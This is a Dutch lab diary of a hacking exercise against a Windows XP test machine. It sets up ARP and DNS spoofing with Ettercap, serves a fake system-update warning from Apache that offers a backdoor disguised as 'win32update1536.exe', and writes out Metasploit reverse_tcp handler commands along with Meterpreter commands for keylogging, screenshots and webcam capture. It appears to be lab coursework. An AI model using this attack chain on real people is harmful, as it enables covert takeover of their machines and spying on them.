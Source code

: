 #02/01/2016

Doel van vandaag is om via een backdoor de controle te kunnen overnemen van ons victim. We zullen dit doen via Metasploit. Ook willen we dat de hack werkt in alle browsers (niet zoals vorig keer enkel IE).

Hoe gaan we dit doen? We zullen via een DNS spoof wijsmaken dat elke hostname zich bevind op het ip adres van de hacker! Dit doen we door middel van een MITM (Arp spoof). Elke keer de victim vraagt waar bevind google.com, facebook.be, ... zich antwoorden we dus. 

Tegelijk hosten we een website op de hacker (Kali PC), deze zal de victim zien op elke "site"! Op deze site zetten we een valse waarschuwing over niet up ge date systeem! We maken hem wijs dat we uit voorzorg de internettoegang ontzegd hebben. We bieden een update die zogezegd een oplossing biedt, maar eigenlijk is het een kwaadaarige payload met een backdoor in :)

We hebben dit eerst geprobeerd met MITMf, die zou ook een DNS spoof module moeten bevatten. [Dit is een blogpost](http://sign0f4.blogspot.be/2014/07/mitmf-update-spoof-plugin_23.html) die geschreven is door de maker van MITMf. Volgens mij is het gewoon verrouderd, want uiteraard werkt dit niet... Getest op apt-get versie en met de laatste versie op GitHub.

Heb ik maar besloten op Ettercap te gebruiken. We hebben nu geen nood om HTTPS te omzeilen. We gaan immers geen bestaande sites bezoeken. En we vallen een Windows XP computer aan met Firefox 12 / Internet Explorer 8. Dus geen nood om HSTS te omzeilen!

We hebben een paar tuturials gevolgd maar uiteraard werkte er enkele. [Deze video](https://www.youtube.com/watch?v=5xoFFIcUaIA) is diegene met de beste uitleg, staan enkele fouten in zoals de instellingen van etter.conf zijn niet nodig. Deze zijn enkel nodig wil je dat de victim nog de sites kan bezoeken, bij ons is dit niet nodig we serveren onze eigen site. 

Het grootte probleem was dat ik niet beschikte over het etter.dns bestand. Ik dacht geen probleem het niet dat ik het ging gebruiken (alles moet naar mijn computer, er moet dus maar 1 DNS entry in). Maar na alles juist in te stellen werkte het uiteraard niet.

Dan heb ik besloten om Ettercap te gebruiken via de terminal. Maar al snel was duidelijk dat de meeste tuturials out dated waren, commando's die niet meer werken of anders moesten gebruikt worden...

Ik ben ondertussen de tel kwijt geraakt hoevaak "werkende" tuturials niet werken bij ons. Blijkbaar is documentatie en compatibiliteit met oudere versies houden niet zo belangrijk. Ik (Brecht Carlier) was van plan hierover te bloggen, maar ik ben dit gewoon niet meer van plan. Als iemand binnen een jaar mijn post leest, is hij waarschijnlijk totaal niet meer correct....

Ik heb hierna besloten Ettercap te verwijderen *apt-get remove ettercap-common* om hierna terug te installeren *apt-get install ettercap-common*. Het resultaat de grafische versie van ettercap werkt niet (start niet meer op). Maar geen probleem we waren ervan overtuigd dat het wel ging werken als we de laptop herstarten. Bleek jammer genoeg niet het geval te zijn. Na nog talloze apt-get commando's begon de moed in onze schoenen te zaken. Toen heb ik besloten om via de source code ettercap (GitHub) ettercap te installeren. Er gebeurde iets toen we het opstarten maar daarna had ik nog nooit zoveel errors op één scherm gezien.

We waren het zo beu dat ik gewoon mijn laptop heb uitgezet. We hebben verder gedaan via Virtualbox. Daar hadden we wel al de etter.dns file staan, onze hoop steeg. Na alles juist te doen, werkte het nog steeds niet.

Na 5u verder hebben we letterlijk niets bereikt. We besluiten om even te stoppen dit gaat toch niet verder zo....

Mijn volgende plan was om gewoon volledig Kali opnieuw te installeren op mijn laptop. En ook ineens goed. Alles wat op mijn laptop stond (Windows 10, Windows Server 2012 R2, Linux Mint, Kali) heb ik verwijderd. En enkel Kali opnieuw opgezet. Alles terug geconfigureerd (taal, toetsenbord, ...)  en we waren terug up and running. Alles werkt terug normaal buiten de print screen toets.

Als eerste MITMf terug opnieuw geïnstalleerd (dit moet uiteraard eerst terug werken). En daarna alle stappen van Ettercap opnieuw uitgevoerd. Wonder boven wonder begonnen dinges te werken. Ik gebruikte eerst de standaard etter.dns file. Deze zal indien het IP adres van microsoft.com gevraagd wordt het IP doorsturen van linux.org (trololo). Wat er nu eigenlijk verkeerd was al dit tijd, we hebben geen idee.

Daarna hebben we de etter.dns file aangepast dat elke hostname zich bevind op onze Kali computer:

>\*&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;A&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;192.168.2.18

Nu voor we dit konden uittesten, moesten we uiteraard een webserver hebben draaien op onze Kali computer. Uiteraard doen we dit met apache!

> sudo service apache2 start

Nu onze webserver opstaat, passen we de index.html file (/var/www/html/) aan naar onze eigen wensen. We verzinnen een tekst, en voegen een download link toe. Voorlopig laten we deze even naar niets wijzen (href) we hebben onze backdoor nog niet gecreëerd. We testen de site door te surfen naar localhost op onze hacker (Kali). Het ziet er goed uit. Ik test even de site manueel op de Windows XP computer (surfen naar 192.168.2.18). Dit werkt ook.

We voeren ons DNS spoof aanval uit. Eerst dus ARP spoofing opzetten. Even verfieren of dit werkt op de Win XP computer d.m.v. arp -a. Alles werkt normaal ik ben instaat om pakketjes te sniffen (ik zie een dhcp pakketje voorbij komen en wat achtergrond http verkeer). Ik zet de dnsspoof plugin op. Ik flush voor de zekerheid de dns cache op de WinXP computer. En surf dan naar microsoft.com en ja hoor daar staat hij onze eigen mooie site! 

Er is nog een klein probleempje, als je bijvoorbeeld zoekt met google wordt de url aangepast met een zoek query. Deze url bestaat niet op onze server. Daar staat enkel een index.html pagina op. We moeten nog instellen dat als de site niet gevonden wordt op mijn server dat hij automatisch geredirect wordt naar de index.html pagina. 

Dit heb ik gedaan d.m.v. [fallbackresource](http://httpd.apache.org/docs/2.2/mod/mod_dir.html#fallbackresource). Dit kun je instellen in je apache settings.

> FallbackResource /index.html

Dit heb ik toegevoegd onder *DocumentRoot* in 000-default.conf in /etc/apache2/sites-available.</br>
Zo dit probleem is ook opgelost. Het maakt niet uit wat je invuld, je komt altijd terecht op onze website. Deel 1 van het plan is geslaagd.

Nu was het tijd voor Metasploit. We zullen gebruik maken de reverse_tcp exploit. **TODO: reverse_tcp explout uitleggen!**

TODO, Process payload maken uitleggen (nu te tam).

Nu we onze backdoor gemaakt hebben en onze .exe hebben plaatsen we deze in de /var/www/html/ map. We vullen als path voor onze link (href) de naam van de backdoor in. Wij hebben deze win32update1536.exe genoemd. Indien je nu klikt op de link zal je de file downloaden.

We moeten nu onze metasploit zo instellen dat we luisteren naar onze backdoor. 

> msfconsole 
> use explout/multi/handler
> set PAYLOAD windows/meterpreter/reverse_tcp
> set LHOST 192.168.2.18
> exploit


Ik heb geen poort ingesteld omdat ik de standaard poort gebruikt heb (4444). Vanaf nu luisteren we naar binnenkomende response van onze backdoor. We wachten dus tot iemand de file download.

Ik test het uit. Je ziet dat de metasploit console reageert, maar hij kan geen meterpreter sessie starten. (Niets gaat van de 1ste keer). De fout was zeer bizar. De sessie starte maar stopte een paar minuten later van een timeout (EOFError). Ik kon maar één link vinden met een gelijkaardig probleem [LINK](https://community.rapid7.com/thread/2796). Maar de suggesties loste het probleem niet op. Na een paar keer proberen had ik een andere "error". Hij bleef hangen op "sending stage metasploit"...

Dit probleem kwam frequenter voor op google. Maar ook hier vond ik niets dat van toepassing is van mijn probleem. Na een paar keer proberen werkte het uit het niets ineens. (Kali dacht waarschijnlijk dat ik tijd teveel heb). Ach ja ik mag niet klagen het werkt!

Zo vanaf nu kunnen we alles wat we met metasploit kunnen, uitvoeren. Het eerste wat je best doet is de backdoor "verplaatsen" naar een andere .exe (migrate). Zie gast sessie (Ernst & Young). Je zorgt er best ook voor dat je de backdoor automatisch wordt uitgevoerd nadat Windows herstart wordt, anders moet hij de file terug downloaden voor je toegang kunt krijgen.

We hebben hierna wat rond gespeeld met Metasploit. Wat basis commando's:
* download => Bestand downoaden op victim
* getuid => Kijken als welke "gebruiker" onze backdoor runt
* ipconfig => ipconfig uitvoeren op victim
* ps => "Taakbeheer", kijken welke programma's er uitgevoerd worden op de victim
* webcam_snap => Foto nemen via webcam. Kreeg de drivers niet werkend op Windows XP (jammeeuuurr)

Voor nog meer basis commando's: [KLIK HIER](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)

We hebben ook nog printscreen genomen van de victim, zo kunnen we constant zien wat de gebruiker doet. Ook hebben we een keylogger toegevoegd aan onze backdoor. Nu kunnen we ook zien wat de gebruiker constant invuld!

TODO: Dit nog verder uitleggen.


###Geleerde commandos
Bestanden zoeken (zoek naar etter.dns)
> locate etter.dns

####TODO: 
* 27112015 -> commando's verklaren 
* 29122015 -> verder afmaken
* mail script
* 28122015 -> ether.conf
